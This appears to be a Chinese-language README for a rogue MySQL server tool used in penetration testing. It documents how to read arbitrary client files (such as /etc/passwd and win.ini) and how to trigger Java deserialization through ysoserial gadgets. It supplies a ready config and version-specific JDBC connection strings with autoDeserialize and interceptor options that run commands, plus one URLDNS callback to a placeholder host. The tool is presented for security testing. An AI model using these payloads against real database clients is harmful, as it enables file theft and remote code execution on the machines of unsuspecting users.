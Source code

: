 ## MySQL-Fake-Server <https://github.com/fnmsd/MySQL_Fake_Server>
<!--auto_detail_badge_begin_0b490ffb61b26b45de3ea5d7dd8a582e-->
![Language](https://img.shields.io/badge/Language-Python-blue)
![Author](https://img.shields.io/badge/Author-fnmsd-orange)
![GitHub stars](https://img.shields.io/github/stars/fnmsd/MySQL_Fake_Server.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V0.0.1-red)
![Time](https://img.shields.io/badge/Join-20211122-green)
<!--auto_detail_badge_end_fef74f2d7ea73fcc43ff78e05b1e7451-->


用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

修改自项目 <https://github.com/waldiTM/python-mysqlproto>

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## 说明
1. 需要python3环境，无任何其它依赖。
2. 运行：`python server.py`
3. 需要[ysoserial](https://github.com/frohoff/ysoserial)才能用反序列化功能，支持`ServerStatusDiffInterceptor`和`detectCustomCollations`两种方式。
4. MySQL的用户名支持冒号、斜杠等特殊符号，但是能否使用还需看具体客户端环境。
5. 根据 **登录用户名** 返回文件读取利用报文、反序列化利用报文。
6. **推荐用法：** config.json中预置了一部分配置信息，可以自己修改添加指定用户名对应的读取文件和yso参数，详细看下面的说明

## 测试环境：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Windows下反序列化（JRE8u20）、文件读取)
2. PHPMyAdmin(Windows+Linux文件读取，可以使用相对路径读取php文件内容)
3. Navicat 12(Windows下文件读取，需要切换到mysql_clear_password认证插件)

## 使用方法
默认的config.json:

```json
{
     "config":{
        "ysoserialPath":"ysoserial-0.0.6-SNAPSHOT-all.jar", //YsoSerial位置
        "javaBinPath":"java",//java运行命令位置
        "fileOutputDir":"./fileOutput/",//读取文件的保存目录
        "displayFileContentOnScreen":true,//是否输出文件内容预览到控制台
        "saveToFile":true//是否保存文件
    },
//文件读取参数
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",//key为设定的用户名,value为要读取的文件路径
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]//未知用户名情况下随机选择文件读取

    },
//ysoserial参数
    "yso":{
        "Jdk7u21":["Jdk7u21","calc"]//key为设定的用户名,value为ysoserial参数的参数
    }
}
```

1. 文件读取：

    - 可以在config.json中fileread节中预定义好要读取的文件(比如win_ini用户名读取win.ini文件)
    - 可以用fileread_开头的用户名(例如使用用户名fileread\_/etc/passwd来读取/etc/passwd文件)

2. 反序列化
    - 可在config.json中yso节预定义好yso payload的生成参数(比如Jdk7u21用户名返回Jdk7u21执行计算器的gadget)

    - 可以用yso_开头的用户名，格式yso\_payload类型\_命令（例如jdk7u21调用calc就使用用户名yso\_Jdk7u21\_calc）

      jdbc连接串示例：
      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`

3. 关于认证：默认认证插件一般使用**mysql_native_password**,但是由于协议实现的问题，navicat下会连接失败，此时在使用的用户名后追加 **_clear** 即可切换为mysql_clear_password,navicat连接成功,读取到文件。

    - **例如：** fileread\_/etc/passwd_clear

## JDBC连接串整理

写分析的时候整理了一下：<https://www.anquanke.com/post/id/203086>
用户名请参考上面的说明进行修改。

### ServerStatusDiffInterceptor触发

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。

- **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

### detectCustomCollations触发：

- **5.1.41及以上:** 不可用

- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.18以下的5.1.x版本：** 不可用

- **5.0.x版本不可用** 

## 效果

Navicat文件读取（用户名使用win_ini_clear）

![image-20200414150112426](https://github.com/fnmsd/MySQL_Fake_Server/raw/master/README.assets/image-20200414150112426.png)

JDK 1.8.20+mysql-connector-java 8.0.14反序列化，使用用户名：yso_JRE8u20_calc

![image-20200414150417471](https://github.com/fnmsd/MySQL_Fake_Server/raw/master/README.assets/image-20200414150417471.png)

## 踩过的坑

1. SHOW VARIABLES 相关
   - 会读取两列，所以需要返回两列，否则会报错。
   - JDBC连接的时候回通过调用`SHOW VARIABLES`获取服务器变量，其中最重要的是两个时区变量`system_time_zone`和`time_zone`，在getObject过程，会调用到时区相关信息，没有这两个会直接报错
2. jdbc的Blob判定条件除了字段类型为blob，还要求字段声明的org_table字段不为空，flags大于128，否则会被当做text进行解析。（com.mysql.cj.protocol.a.NativeProtocol的findMysqlType方法）
3. 原python-mysqlproto中的序列检测需要去掉，否则会出错（这个应该是哪里处理有问题导致了序号重置）。
4. `SHOW SESSION STATUS`和`SHOW COLLATION`的公用列是第二列
5. mysql java connector 5.x的环境下，需要返回的server版本大于等于5.0.0才会走到`Util.resultSetToMap`进入getObject


<!--auto_detail_active_begin_e1c6fb434b6f0baf6912c7a1934f772b-->
## 项目相关


## 最近更新

<!--auto_detail_active_end_f9cf7911015e9913b7e691a7a5878527-->

